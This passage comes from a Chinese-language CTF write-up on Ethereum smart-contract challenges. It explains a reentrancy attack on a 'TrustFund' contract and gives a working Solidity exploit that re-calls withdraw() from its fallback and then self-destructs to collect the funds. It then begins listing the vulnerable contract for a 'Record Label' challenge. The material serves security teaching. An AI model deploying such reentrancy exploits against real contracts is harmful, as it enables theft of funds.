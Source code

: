 重入攻击，写一个攻击合约，在其 fallback 中再次调用 withdraw 函数就可以实现重入，注意要在 MetaMask 发送交易时提高一下 gas，不然内部的交易会出现 gas 不足的问题

???+ done "exp"
    ```solidity
    contract Exploit {
        TrustFund challenge;
        constructor(address addr) public {
            challenge = TrustFund(addr);
        }
        function exp() public {
            challenge.withdraw();
        }
        function() public payable {
            challenge.withdraw();
        }
        function destroy(address addr) public {
            selfdestruct(addr);
        }
    }
    ```

---

## Record Label

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";


    contract Royalties{

        using SafeMath for uint256;

        address private collectionsContract;
        address private artist;

        address[] private receiver;
        mapping(address => uint256) private receiverToPercentOfProfit;
        uint256 private percentRemaining;

        uint256 public amountPaid;

        constructor(address _manager, address _artist) public
        {
            collectionsContract = msg.sender;
            artist=_artist;

            receiver.push(_manager);
            receiverToPercentOfProfit[_manager] = 80;
            percentRemaining = 100 - receiverToPercentOfProfit[_manager];
        }

